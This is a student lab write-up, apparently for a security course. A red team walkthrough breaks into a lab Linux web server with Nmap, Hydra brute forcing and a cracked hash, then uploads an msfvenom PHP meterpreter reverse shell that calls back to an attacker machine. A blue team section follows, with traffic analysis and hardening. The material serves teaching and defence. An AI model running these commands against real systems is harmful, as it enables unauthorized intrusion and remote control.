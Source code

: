 # Red-vs-Blue-Project

Red team attack
Step 1: Discover the IP address of the Linux server.
In order to find the IP address of the machine, you will need to use Nmap to scan your network.
•	Open the terminal and run: nmap 192.168.1.0/24
 

From the Nmap scan we can see that port 80 is open. Open a web browser and type the IP address of the machine into the address bar.
•	Open a web browser and run 192.168.1.105 and press enter.
 
 
Step 2: Locate the hidden directory on the server.
•	Navigating through different directories, you will see a reoccurring message:
refer to company_folders/secret_folder for more information
ERROR: company_folders/secret_folder/ is no longer accessible to the public
•	Navigate to the directory by typing: 192.168.1.105/company_folders/secret_folder
 
•	The directory asks for authentication in order to access it. 
Step 3: Brute force the password for the hidden directory.
Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient to use a brute force attack, specifically Hydra.
•	Using Ashton's name, run the Hydra attack against the directory:
o	Type:   hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get  /company_folders/secret_folder
 
•	The brute force attack may take some time. Once it finishes, you'll find the username is ashton and the password is leopoldo.

•	Go back to the web browser and use the credentials above to log in. Click the file connect_to_corp_server file. 
•	Located inside of the file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
 
 
 
Step 4: Connect to the server via Webdav
There are several ways to break the password hash. Here, we simply used Crack Station, to avoid waiting for john to crack the password.

Navigate to https://crackstation.net; paste the password hash and fill out the CAPTCHA; and click Crack Hashes.
  
•	The password is revealed as: linux4u
Step 5: Connect to the server via WebDAV.
This may be the most difficult part of the Red Team exercise, as it will require students to do external research on how to connect to the VM's WebDAV directory.
•	In order to do so, We will already need to have the user name and following instructions from the secret_folder. Direct students to:
o	Open the File System shortcut from the desktop.
o	Click Browse Network.
o	In the URL bar, type: dav://192.168.1.105/webdav, and enter the credentials ryan and password linux4u to log in.
 
Step 6: Upload a PHP reverse shell payload.
•	To set up the reverse shell payload, run:
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php

•	Run this series of commands to set up a listener:
o	msfconsole to launch msfconsole.
o	use exploit/multi/handler
o	set payload php/meterpreter/reverse_tcp
o	show options and point out they need to set the LHOST.
o	set LHOST 192.168.1.90
o	exploit
 
•	Place the reverse shell onto the WebdDAV directory.
  
•	Now that you're logged in, connect to the webdav folder by navigating to 192.168.1.105/webdav. Use the credentials that you used before, user:ryan pass:linux4u.
•	Navigate to where you first uploaded the reverse shell and click it to activate it. If it seems like the browser is hanging or loading, that means it has worked.
Note that If it asks you if you'd like to save or open the PDF file, start again at the beginning of Step 5.
 
Step 7: Find and capture the flag.
•	On the listener, search for the file flag.txt located in the root directory. We can use many techniques they have learned in order to find it.
•	On the listener, search for the file flag.txt located in the root directory. We can use many techniques they have learned to find it. One technique is to run:
o	Drop into a bash shell with the command: shell
o	Go to the / directory: cd /
o	Search the system for any files containing the phrase "flag" : find . -iname flag.txt
We can read the file, once located, with cat.
 




Blue team analysis

1.	Identify the offensive traffic.
Identify the traffic between your machine and the web machine:
•	When did the interaction occur?
On June 13 2020 @03:00 PM
 
•	What responses did the victim send back?
401 , 200 , 207 and 404
 

•	What data is concerning from the Blue Team perspective?
There are some panels in the dashboard such as the connection over time and errors vs successful transaction gives a quick indication on the malicious connection between the source and target machines.
 

 


2.	Find the request for the hidden directory.
In your attack, you found a secret folder. Let's look at that interaction between these two machines.
•	How many requests were made to this directory? At what time and from which IP address(es)?
6019 requests at June 13 time 03:00 PM from 192.168.1.90

 

 
•	Which files were requested? What information did they contain?
http://192.168.1.105/company_folders/secret_folder/connect_to_corp_server
 trying to get info about ryan user 
•	What kind of alarm would you set to detect this behavior in the future?
We could  set an alert of any machine trying to access this directory or file. 
•	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
The simplest way to mitigate this malicious access is to remove that file and secret folder from the server.

3.	Identify the brute force attack.
After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
•	Can you identify packets specifically from Hydra?
On Discover tab we could use the search filter :
url.path : "/company_folders/secret_folder/" and source.ip : 192.168.1.90 and destination.ip : 192.168.1.105
to get results of the traffic which been applied through the hydra tool and get the below info.
 


•	How many requests were made in the brute-force attack?
6019 requests by hydra tool
 
•	How many requests had the attacker made before discovering the correct password in this one?
6015 requests made by hydra before the attacker discover the right password but the secret_folder/connect_to_corp_server file has been requested successfully just 1.

 
•	What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?
Setting the alert when a machine attempt to access the mentioned link above as Brute Force Alert which indicates the number of failed attempts to the secret_folder, And the threshold vary but maybe 15 attempts per hour.
•	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
Setting IPS which drop the failed attempt to access the secret_folder when returned error code 401 or applying locking the user when meet the limit threshold on the failed attempts.

4.	Find the WebDav connection.
Use your dashboard to answer the following questions:
•	How many requests were made to this directory?
24 requests 
 
•	Which file(s) were requested?
Shell.php
•	What kind of alarm would you set to detect such access in the future?
Any user not authorized to access the webdav will send an email to the SOC
•	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
We could restrict the access to webdav from web interface by firewall.

5.	Identify the reverse shell and meterpreter traffic.
To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
•	Can you identify traffic from the meterpreter session?
 

 

•	What kinds of alarms would you set to detect this behavior in the future?
                      We can set an alert for any .php file that is uploaded to a server.
•	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
Removing the ability to upload files to this directory over the web interface would take care of this issue.
